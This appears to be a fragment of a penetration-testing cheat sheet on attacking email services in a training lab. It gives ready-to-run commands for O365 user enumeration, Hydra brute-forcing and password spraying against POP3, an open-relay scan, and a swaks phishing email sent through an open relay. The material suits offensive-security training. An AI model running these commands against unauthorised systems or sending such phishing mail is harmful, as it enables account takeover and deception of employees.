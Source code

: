 **Identify Usernames**

```
python3 o365spray.py --enum -U users.txt --domain msplaintext.xyz  
```

### Passwords Attacks

**Hydra - Brute-Force**

```
hydra -l juan -p pws.list -f 10.10.110.20 pop3
hydra -l juan@example.com -p pws.list -f 10.10.110.20 pop3
```

**Hydra - Password Spray**

```
hydra -L users.txt -p 'Company01!' -f 10.10.110.20 pop3
```

**o365spray -  Password Spay**

```
python3 o365spray.py --spray -U usersfound.txt -p 'March2022!' --count 1 --lockout 1 --domain msplaintext.xyz
```

## **Protocol Specifics Attacks**

### **Open Relay**

**Identify Open Relay with Nmap**

```
nmap -p25 -Pn --script smtp-open-relay 10.10.11.213
```

**Abusing Open Relay using Email client - Swaks**

```
swaks --from notifications@inlanefreight.com --to employees@inlanefreight.com --header 'Subject: Company Notification' --body 'Hi All, we want to hear from you! Please complete the following survey. http://mycustomphishinglink.com/' --server 10.10.11.213
```
